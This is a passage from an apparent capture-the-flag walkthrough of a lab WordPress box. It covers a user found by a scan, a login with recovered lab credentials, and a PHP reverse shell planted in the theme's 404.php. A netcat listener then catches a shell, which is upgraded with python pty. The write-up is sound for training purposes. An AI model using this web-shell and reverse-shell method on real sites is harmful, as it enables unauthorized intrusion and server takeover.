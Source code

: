 ~~~
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Tue Sep 21 12:36:42 2021
[+] Requests Done: 29
[+] Cached Requests: 30
[+] Data Sent: 8.258 KB
[+] Data Received: 317.604 KB
[+] Memory used: 174.859 MB
[+] Elapsed time: 00:00:05
~~~

The scan found a user: `elyana`

I guessed that the cipher I decrypted earlier might be the password for this user, so i went to `/wp-admin` which is the default admin login panel for wordpress and tried the decrypted string and it was valid.

* wp username: `elyana`
* wp password: `H@ckme@123`

## Reverse Shell

Now we are in admin panel and can edit the pages. i went to this address: 

`Appearance > Theme Editor > select Twenty Twenty > select 404.php`

This takes us to: http://10.10.142.56/wordpress/wp-admin/theme-editor.php?file=404.php&theme=twentytwenty

Now the only thing to do, is to replace the 404.php code with a [PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Don't forget to change the IP to your IP and the port, to the port you want to get the reverse shell on. When you are done, click "Upadte File".

Then start a listener (`rlwrap nc -lvnp 4444`) and navigate to http://10.10.142.56/wordpress/wp-content/themes/twentytwenty/404.php and now we have a shell:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkThroughs/thm/All_in_One/files]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.0.154] from (UNKNOWN) [10.10.142.56] 50472
Linux elyana 4.15.0-118-generic #119-Ubuntu SMP Tue Sep 8 12:30:01 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 08:34:11 up 46 min,  0 users,  load average: 0.01, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
which python3
/usr/bin/python3
python3 -c "import pty;pty.spawn('/bin/bash')"
bash-4.4$ 
~~~

